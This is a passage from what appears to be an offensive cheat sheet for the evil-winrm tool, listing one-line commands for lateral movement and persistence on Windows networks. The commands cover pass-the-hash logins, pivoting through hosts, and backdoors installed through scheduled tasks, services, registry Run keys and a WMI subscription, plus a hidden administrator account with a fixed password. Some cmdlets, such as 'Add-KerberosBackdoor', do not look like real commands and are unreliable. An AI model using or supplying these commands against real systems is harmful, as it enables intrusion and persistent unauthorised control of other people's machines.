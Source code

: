 4. **Executing Commands on Remote Hosts**: Executes a PowerShell command on a remote host within the same domain.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-Command -ComputerName <remote_host> -ScriptBlock {ipconfig /all}"
    ```
5. **Pass-the-Hash for Lateral Movement**: Uses Pass-the-Hash to move laterally to another machine within the network.
    ```bash
    evil-winrm -i <remote_host> -u <username> -H <ntlm_hash>
    ```
6. **Pivoting Through Multiple Hosts**: Moves laterally through an intermediate host to reach a final target.
    ```bash
    evil-winrm -i <intermediate_host> -u <username> -p <password> -c "Invoke-Command -ComputerName <final_target_host> -ScriptBlock {ipconfig /all}"
    ```

#### Persistence

1. **Creating a Persistent Backdoor with Scheduled Tasks**: Creates a scheduled task that runs a PowerShell backdoor script each time the system starts.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "schtasks /create /tn 'Backdoor' /tr 'powershell.exe -ExecutionPolicy Bypass -NoProfile -File C:\backdoor.ps1' /sc onstart /ru SYSTEM"
    ```
2. **Maintaining Access with a Hidden User Account**: Creates a hidden user account and adds it to the Administrators group, maintaining persistent access.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "net user hiddenuser password123 /add & net localgroup Administrators hiddenuser /add"
    ```
3. **Adding a Startup Script for Persistence**: Adds a startup script to the Windows registry, ensuring the backdoor script runs on each login.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "New-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'C:\backdoor.ps1'"
    ```
4. **Creating a Persistent Service**: Creates a new service that runs a PowerShell script with SYSTEM privileges on every system startup.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "New-Service -Name 'PersistentService' -BinaryPathName 'powershell.exe -ExecutionPolicy Bypass -NoProfile -File C:\backdoor.ps1' -StartupType Automatic"
    ```
5. **Maintaining Access via WMI Event Subscription**: Establishes a WMI event subscription to trigger the backdoor script every 60 seconds.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-WmiEventSubscription -Script 'C:\backdoor.ps1' -TriggerType Interval -TriggerInterval 60"
    ```
6. **Establishing a Kerberos Backdoor**: Adds a hidden user account with administrative privileges to the Kerberos ticket-granting system for persistent access.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Add-KerberosBackdoor -Username hiddenuser -Password password123 -Admin"
    ```

